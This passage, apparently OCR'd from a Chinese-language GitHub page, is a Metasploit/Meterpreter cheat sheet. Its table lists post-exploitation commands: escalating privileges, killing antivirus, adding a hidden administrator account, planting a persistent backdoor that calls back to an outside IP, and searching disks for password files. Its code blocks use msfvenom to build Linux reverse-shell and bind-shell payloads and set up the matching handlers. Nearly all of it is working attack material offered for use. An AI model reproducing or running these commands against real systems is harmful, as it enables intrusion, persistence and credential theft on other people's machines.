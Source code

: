 |             uictl disable keyboard/mouse              |            禁用键盘/鼠标             |
|              uictl enable keyboard/mouse              |          启用键盘/鼠标制权           |
|                     show targets                      |          查看该模块适用系统          |
|                     show options                      |               查看设置               |
|                       getsystem                       |                 提权                 |
|                   upload a.exe  c:/                   |            上传文件到c:/             |
|               download c:\\a.exe /root/               |          下载文件到root目录          |
|                      run killav                       |          关闭对方的杀毒软件          |
|              net user admin 123456 /add               | 新建一个用户名admin 密码123456的用户 |
|              net user admin$ 123456 /add              |           创建一个隐藏用户           |
|       net localgroug administrators admin /add        |            加入管理员权限            |
|    run persistence -X -i 5 -p 8888 -r 192.168.1.11    |          生成一个持续性后门          |
| explorer.exe ::{645FF040-5081-101B-9F08-00AA002F954E} |              打开回收站              |
|     `dir c:\ d:\ e:\ /s /b |find "password.txt"`      |             全盘搜索文件             |

#### linux

##### 反向

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.36.129 LPORT=1111 -f elf >t1.elf

use exploit/multi/handler

set payload linux/x64/meterpreter/reverse_tcp

set LHOST 192.168.36.129

set LPORT 1111
```



##### 正向

```
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=3333 -f elf > 2.elf

use exploit/multi/handler

set payload linux/x64/meterpreter/bind_tcp

set rhost 192.168.22.128

set LPORT 3333

exploit
```
